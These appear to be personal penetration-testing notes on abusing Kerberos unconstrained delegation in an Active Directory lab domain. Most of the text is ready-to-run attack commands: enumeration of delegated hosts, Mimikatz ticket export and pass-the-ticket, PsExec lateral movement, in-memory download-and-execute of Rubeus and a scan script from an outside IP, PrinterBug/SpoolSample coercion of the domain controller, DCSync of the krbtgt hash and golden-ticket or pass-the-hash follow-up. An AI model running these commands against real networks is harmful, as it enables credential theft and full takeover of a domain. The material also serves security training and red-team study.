 - Allows a service to authenticate on a user's behalf
- **Enumerate with BloodHound**

### Unconstrained Delegation (2000)
- allows service to perform authentication on behalf of the user to anything in the domain
- **allows compromise of any user who authenticates to the service (if we control it)**
    - **combine with PrinterBug to compromise the DC**
- user requests TGT w/ Forward Flag set, and embeds this within the TGS they request. The service can then forward the TGT on their behalf.
- Vulnerability - if we compromise a service, we can steal any user's identity who authenticates to us.
    - **requires user interaction/auth request - but can force DC w/ printerbug**
- **If printerbug doesn't work, try monitoring for user auth tickets**

- Computers:
    - `Get-DomainComputer -Unconstrained`
        - note 'name' and the TRUSTED_FOR_DELEGATION useraccountcontrol flag
    - can also apply to service accounts
    - Or:  `Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description`
- Users:
    `Get-DomainUser -ldapfilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"`
    - Or:  `Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description`
    - Exploiting user account:  https://exploit.ph/user-constrained-delegation.html

- To Abuse - Basic Example:
    - first compromise the computer or service account - access via lateral movement or application compromise
    - elevate and access user tickets w/ Mimikatz (once target user has authenticated to web app, etc.):
        - `privilege::debug`
        - `sekurlsa::tickets``
            - look for TGT w/ forwardable flag
        - `sekurlsa::tickets /export`           //save tickets to disk
        - Use the stolen TGT:
            - `kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi`
            - `C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd`

- *Better method w/ Rubeus & SpoolSample - works on DC:
    1. Check spooler running on DC:
        - `dir \\cdc01\pipe\spoolss`
        - Or:  `rpcdump.py <DCIP> | grep -A 6 "spoolsv"`
        - Or (after editing IP):  `(New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/SpoolerScan.ps1') | IEX`
        - **if can't access, use Rubeus to inject a different ticket & check again!
    2. Check & Listen for tickets:
        - `Rubeus.exe monitor /interval:5 /nowrap [/filteruser:CDC01$]`
        - in-memory:  `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.121/Rubeus.exe'); $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::Main("monitor /interval:5".Split())`
        - *or use the Rubeus DLL
    3. Trigger DC to auth:
        - `SpoolSample.exe CDC01 APPSRV01`
        - Or:  `python3 printerbug.py prod.corp1.com/APPSRV01\$@CDC01.prod.corp1.com -hashes aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea576.... attacker.prod.corp1.com`
    4. Inject ticket into memory:
        - `Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...`
    - With DC machine account, can't perform lateral mvmt, but can do dcsync and dump any user's hash due to domain replication permissions
        - `mimikatz.exe`
        - `lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt`
            - then make golden ticket and access anything
            - or: dump domain administrator hash & PTH w/ wmiexec onto DC
